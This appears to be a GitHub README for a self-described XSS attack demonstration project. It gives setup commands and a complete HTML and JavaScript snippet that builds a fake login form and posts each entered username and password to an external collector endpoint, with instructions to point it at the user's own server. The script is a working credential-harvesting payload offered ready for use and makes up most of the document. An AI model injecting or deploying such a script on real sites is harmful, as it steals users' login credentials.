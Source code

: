 # XSS Attack Project

## Project Description
This project demonstrates a Cross-Site Scripting (XSS) attack using a simple login form. The server collects login data and saves it to a JSON file.

## Table of Contents

1. [Installation](#installation)
2. [How to run the code](#how-to-run-the-code)
3. [Client Side Code](#client-side-code)
4. [XSS Demo Video](#xss-demo-video)
5. [Contribution Guidelines](#contribution-guidelines)
6. [License Information](#license-information)

## Installation

* Ensure you have Node.js installed on your machine. You can download it from [Node.js](https://nodejs.org/).
* Clone the repository to your local machine.
* Navigate to the project directory.
* Install the dependencies by running the following command:
  ```bash
  npm install
  ```

## How to run the code

* Start the server by running the following command:
  ```bash
  node server.js
  ```

## Client Side Code

```html
<form id="loginForm">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required><br><br>
 
<label for="password">Password:</label>
<input type="password" id="password" name="password" required><br><br>
 
<button type="button" id="loginButton">Login</button>
</form>
 
<script>
const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';

        function sendLoginToAPI(event) {
            event.preventDefault();

            alert("Login button clicked!");

            const username = $('#username').val();
            const password = $('#password').val();

            if (!username || !password) {
                alert("Both username and password are required.");
                return;
            }

            $.ajax({
                url: apiUrl,
                method: 'POST',
                contentType: 'application/json',
                data: JSON.stringify({ username: username, password: password }),
                success: function(data) {
                    console.log('Login response:', data);
                    alert('Login successful!');
                },
                error: function(xhr, status, error) {
                    console.error('Login failed:', error);
                    alert('Invalid username or password.');
                }
            });
        }

        $('#loginButton').on('mousedown', sendLoginToAPI);
</script>
```

Change your workspace name to your own workspace name in the apiUrl variable.

## XSS Demo Video
<details><summary>View Demo Video</summary>
<video src="https://raw.githubusercontent.com/StepSisStuck/API-XSS-Attack/refs/heads/main/XSSDemo.mp4" title="Demonstration video of the software."></video> <!-- Licence for Example_2.webm: MPL-2.0+ OR CC-BY-SA-4.0+ --></details>


## Contribution Guidelines

1. Fork the repository.
2. Create a new branch for your feature or bugfix.
3. Commit your changes with a descriptive message.
4. Push your changes to your forked repository.
5. Create a pull request to the main repository.

## License Information

This project is licensed under the ISC License.

